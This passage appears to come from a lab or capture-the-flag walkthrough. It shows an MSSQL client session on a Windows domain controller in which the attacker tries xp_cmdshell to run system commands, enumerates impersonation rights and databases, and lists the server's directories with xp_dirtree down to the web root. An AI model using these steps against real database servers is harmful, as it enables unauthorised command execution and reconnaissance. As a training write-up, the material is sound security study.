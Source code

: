 ```
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```
```
SQL (MANAGER\Operator  guest@master)> xp_cmdshell whoami ←
ERROR(DC01\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (MANAGER\Operator  guest@master)> enable_xp_cmdshell ←
ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
```
```
SQL (MANAGER\Operator  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
```
```
SQL (MANAGER\Operator  guest@master)> SELECT DB_NAME()
         
------   
master 
SQL (MANAGER\Operator  guest@master)> SELECT name FROM master..sysdatabases
name     
------   
master   

tempdb   

model    

msdb
```
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree ←
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Documents and Settings          1      0   

inetpub                         1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

ProgramData                     1      0   

Recovery                        1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Users                           1      0   

Windows                         1      0 
SQL (MANAGER\Operator  guest@master)> xp_dirtree C://inetpub/wwwroot/ ←
```
